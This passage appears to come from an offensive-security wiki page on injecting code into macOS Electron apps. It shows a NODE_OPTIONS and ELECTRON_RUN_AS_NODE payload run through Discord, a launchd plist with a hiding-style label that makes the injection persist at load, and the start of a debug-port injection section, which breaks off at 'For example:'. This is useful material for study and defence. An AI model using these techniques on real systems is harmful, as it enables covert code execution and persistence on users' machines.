 ## RCE with `NODE_OPTIONS`

You can store the payload in a different file and execute it:

{% code overflow="wrap" %}
```bash
# Content of /tmp/payload.js
require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator');

# Execute
NODE_OPTIONS="--require /tmp/payload.js" ELECTRON_RUN_AS_NODE=1 /Applications/Discord.app/Contents/MacOS/Discord
```
{% endcode %}

{% hint style="danger" %}
If the fuse **`EnableNodeOptionsEnvironmentVariable`** is **disabled**, the app will **ignore** the env var **NODE\_OPTIONS** when launched unless the env variable **`ELECTRON_RUN_AS_NODE`** is set, which will be also **ignored** if the fuse **`RunAsNode`** is disabled.

If you don't set **`ELECTRON_RUN_AS_NODE`** , you will find the **error**: `Most NODE_OPTIONs are not supported in packaged apps. See documentation for more details.`
{% endhint %}

### Injection from the App Plist

You could abuse this env variable in a plist to maintain persistence adding these keys:

```xml
<dict>
    <key>EnvironmentVariables</key>
    <dict>
           <key>ELECTRON_RUN_AS_NODE</key>
           <string>true</string>
           <key>NODE_OPTIONS</key>
           <string>--require /tmp/payload.js</string>
    </dict>
    <key>Label</key>
    <string>com.bytebreach.hideme</string>
    <key>RunAtLoad</key>
    <true/>
</dict>
```

## RCE with inspecting

According to [**this**](https://medium.com/@metnew/why-electron-apps-cant-store-your-secrets-confidentially-inspect-option-a49950d6d51f), if you execute an Electron application with flags such as **`--inspect`**, **`--inspect-brk`** and **`--remote-debugging-port`**, a **debug port will be open** so you can connect to it (for example from Chrome in `chrome://inspect`) and you will be able to **inject code on it** or even launch new processes.\
For example:
